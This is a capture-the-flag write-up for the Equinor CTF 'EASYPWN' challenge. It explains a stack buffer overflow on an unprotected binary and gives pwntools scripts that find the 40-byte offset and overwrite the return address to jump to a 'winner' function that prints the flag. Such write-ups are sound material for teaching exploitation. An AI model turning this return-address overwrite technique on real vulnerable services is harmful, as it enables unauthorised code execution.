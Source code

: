 ```yaml
---
title: EASYPWN - (BUFFER OVERFLOW) Equinor CTF Writeup
date: 2023-11-13
author: John Velo
description: EASYPWN
---
```


# EASYPWN - BUFFEER OVERFLOW Writeup

**Task Description:**

This task is a typical easy *buffer overflow* exploit. We were given 4 files including a fake flag and docker file so we can test if our payload works locally.

![easypwn](./images/Picture12.png)

![easypwn](./images/Picture1.png)

Examining the file by the command ```file easypwn```, we get to see that it is not stripped, meaning there is still debugging information inside as well as no security measures such as *ASLR (Address Space Layout Randomization), NX (No eXecute) bit, and Stack Canaries* that prevents buffer overflow exploits.

![easypwn](./images/Picture2.png)

Here is a simple test that results in *segmentation fault* (overflow) in the buffer by adding a lot of A as the name.

![easypwn](./images/Picture3.png)

**Let’s analyze the file!**

Now that we know that buffer overflow is doable, let’s see what function will print the flag. 
This command ```nm -C ./easypwn``` lets us see the memory address of the functions as well as read the function names of this executable. 


![easypwn](./images/Picture4.png)

We see the **main function**, as well as **hello** and a **winner** function. Hmm let’s analyze this further using *ghidra*.

![easypwn](./images/Picture5.png)

We see that the **winner function** is the one responsible for printing the flag. Since we already know the address for this function which is ```0x401236```, we only need to know the offset for our payload so we can exploit this program.

We can use this script to know the offset, which is the number of bytes we need to write to reach to the point where we can overwrite the return address or another critical part of the memory structure, which in this case we want to call the winner function to print the flag. 

```
from pwn import *

# Load the ELF
elf = ELF("./easypwn")

# Start the process
p = process("./easypwn")

# Send a cyclic pattern
p.sendline(cyclic(200, n=8))

# Wait for the process to crash
p.wait()

# Load the core dump
core = Coredump('./core')  # Adjust the path to your core dump file

# Find and print the offset
offset = cyclic_find(core.read(core.rsp, 8), n=8)
print("Offset:", offset)
```
Offset we got is **40**

![easypwn](./images/Picture7.png)

**Let’s start the exploit!**

Since were given a dockerfile, let’s run it first to test if the exploit works.

```sudo docker build -t easypwn .``` & ```sudo docker run -d -p 1024:1024 --rm -it easypwn```

![easypwn](./images/Picture8.png)

We can use this script which also uses pwntools to test our payload locally.

```
from pwn import *

#to test on local net
p = remote ("127.0.0.1", 1024) 
#p = remote ("io.ept.gg", 30004)

print(p.recvline())

#0x401236 the memory address we want to access (Winner function)
RIP = p64(0x401236)
print(RIP)

# 40 is the offset + the payload (RIP)
p.sendline(b"A"*40+RIP)
print(p.recvline())
p.interactive()
```

The script demonstrates how to connect to a service, send a payload designed to overflow a buffer, and overwrite the program's instruction pointer to redirect the flow of execution to a specific memory address. 

![easypwn](./images/Picture10.png)

After running the script locally we do get to see the fake flag! Now just to change the IP address in the script to the CTF address which is ```io.ept.gg:30004```, and then we get to see the flag for this challenge. 😊

![easypwn](./images/Picture11.png)

```EPT{S0meth1n6_2_ge7_u_5t4rt3d}```